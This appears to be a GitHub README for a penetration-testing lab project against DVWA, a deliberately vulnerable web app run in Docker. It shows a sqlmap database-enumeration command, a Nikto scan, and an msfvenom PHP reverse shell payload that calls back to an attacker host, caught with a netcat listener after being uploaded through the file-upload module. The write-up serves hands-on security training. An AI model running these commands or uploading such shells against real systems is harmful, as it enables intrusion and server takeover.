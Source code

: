 # DVWA Vulnerability Assessment

This project documents the process of identifying and exploiting various vulnerabilities in the **Damn Vulnerable Web Application (DVWA)**, a deliberately insecure web application designed for practicing penetration testing techniques.

---

## **Table of Contents**
1. [Project Overview](#project-overview)
2. [Setup](#setup)
   - [Installing DVWA Using Docker](#installing-dvwa-using-docker)
3. [Vulnerabilities Explored](#vulnerabilities-explored)
   - [1. SQL Injection](#1-sql-injection)
   - [2. File Upload Vulnerability](#2-file-upload-vulnerability)
   - [3. General Vulnerability Testing Using Nikto](#3-general-vulnerability-testing-using-nikto)
4. [Tools Used](#tools-used)
5. [Screenshots](#screenshots)
6. [Writeups](#writeups)
   - [SQL Injection Writeup](sql-injection.md)
   - [File Upload Vulnerability Writeup](file-upload.md)

---

## **Project Overview**
The goal of this project is to demonstrate practical penetration testing skills by:
1. Setting up a DVWA instance using Docker.
2. Exploring and exploiting vulnerabilities in the application, including SQL Injection and File Upload vulnerabilities.
3. Using tools such as `sqlmap`, `Nikto`, and `msfvenom` to perform the assessment.
4. Providing detailed documentation for each vulnerability with remediation suggestions.

---

## **Setup**

### Installing DVWA Using Docker
The following steps were performed to set up DVWA using Docker:

1. **Start and Enable Docker**:
   ```bash
   sudo systemctl start docker
   sudo systemctl enable docker
   ```

2. **Pull DVWA Docker Image**:
   ```bash
   sudo docker pull vulnerables/web-dvwa
   ```

3. **Run DVWA**:
   ```bash
   sudo docker run --rm -it -p 80:80 vulnerables/web-dvwa
   ```

Refer to the screenshot below for the commands executed:
![Installing DVWA Using Docker]((https://github.com/user-attachments/assets/2b7ba66e-c526-4b87-8d1e-35932f432ab4)
)

4. Access the application at `http://127.0.0.1` and set the **security level to Low**.

---

## **Vulnerabilities Explored**

### 1. SQL Injection
- **Objective**: Exploit the SQL Injection vulnerability to extract sensitive information.
- **Steps**:
  1. Navigated to the **SQL Injection** module in DVWA.
  2. Used `sqlmap` to automate the exploitation.
     ```bash
     sqlmap -u "http://127.0.0.1/vulnerabilities/sqli/?id=1&Submit=Submit" \
            --cookie="PHPSESSID=<SESSION_ID>; security=low" --dbs
     ```
  3. Successfully enumerated the databases and confirmed the application is vulnerable.

For a detailed writeup, see: [SQL Injection Writeup](sql-injection.md)

---

### 2. File Upload Vulnerability
- **Objective**: Exploit the File Upload vulnerability to upload a malicious PHP payload.
- **Steps**:
  1. Used `msfvenom` to create a reverse shell payload:
     ```bash
     msfvenom -p php/reverse_php LHOST=192.168.191.128 LPORT=4444 -f raw > shell.php
     ```
  2. Uploaded the payload via the File Upload module.
  3. Triggered the payload and successfully established a reverse shell using Netcat:
     ```bash
     nc -lvnp 4444
     ```
For a detailed writeup, see: [File Upload Vulnerability Writeup](file-upload.md)

---

### 3. General Vulnerability Testing Using Nikto
- **Objective**: Scan for general vulnerabilities using `Nikto`.
- **Steps**:
  1. Ran a `Nikto` scan on the application:
     ```bash
     nikto -h http://127.0.0.1
     ```
  2. Identified issues such as outdated Apache version and missing security headers.

---

## **Tools Used**
1. **Docker**: For running the DVWA container.
2. **Nikto**: To scan for general web application vulnerabilities.
3. **Sqlmap**: To automate SQL Injection attacks.
4. **Msfvenom**: For generating a malicious PHP reverse shell payload.
5. **Netcat**: For establishing a reverse shell connection.

---

## **Screenshots**
1. ![SQLmap Command Execution]((https://github.com/user-attachments/assets/9be88cbf-7e4f-45ee-8f6d-942268c6ecfd))
   
2. ![SQLmap Results]((https://github.com/user-attachments/assets/2ea824fc-d18e-43b7-8d4c-1dc6347768e2)
)
3. ![Nikto Scan Results]((https://github.com/user-attachments/assets/c5d334f2-ca77-47e4-97e0-f3206880479c)
)
4. ![Reverse Shell Connection]((https://github.com/user-attachments/assets/3dc931c8-7e55-4e63-aa7d-3310bcc36991)
)

---

## **Writeups**

- [SQL Injection Writeup](sql-injection.md)
- [File Upload Vulnerability Writeup](file-upload.md)
- [Nikto Scan Writeup](nikto-scan.md)

Refer to individual writeups for detailed steps, analysis, and mitigation suggestions.

